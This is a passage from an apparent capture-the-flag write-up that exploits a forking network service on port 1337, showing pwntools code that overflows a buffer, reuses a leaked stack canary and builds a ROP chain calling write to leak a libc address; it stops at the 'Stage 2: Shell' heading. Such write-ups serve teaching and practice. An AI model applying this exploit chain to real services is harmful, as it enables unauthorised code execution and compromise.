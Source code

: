 

    root@kali# ./contact
    listen on port 1337, fd is 3
    [+] Request accepted fd 4, pid 0
    [+] Request accepted fd 4, pid 0



So I'll write to 4.

#### Code

Putting all of that together, I can write the following code:



    ### Stage 1: Leak libc
    # Gadgets
    prog_base = u64(ret) - 0x1562
    pop_rdi_ret = p64(0x164b + prog_base)
    pop_rsi_r15_ret = p64(0x1649 + prog_base)
    pop_rdx_ret = p64(0x1265 + prog_base)
    write = p64(0x1050 + prog_base)
    write_got = p64(0x4028 + prog_base)

    junk = b"A"*56
    exploit =  junk + canary + rbp

    # write(4, write_got, 8)
    exploit += pop_rdi_ret
    exploit += p64(4)
    exploit += pop_rsi_r15_ret
    exploit += write_got
    exploit += p64(0)
    exploit += pop_rdx_ret
    exploit += p64(8)
    exploit += write

    log.info("Sending exploit to leak libc write address")
    p = remote(host, port)
    p.recvuntil("Please enter the message you want to send to admin:\n")
    p.send(exploit)
    libc_write = p.recv(8, timeout=300)
    log.success(f"libc write address: 0x{u64(libc_write):016x}")
    p.close()



Before this code, `exploit` consists of junk, the canary, and rbp. So I
start a rop chain with the gadgets to call `write`. When I send it, I
get back the libc address of `write`.

### Stage 2: Shell
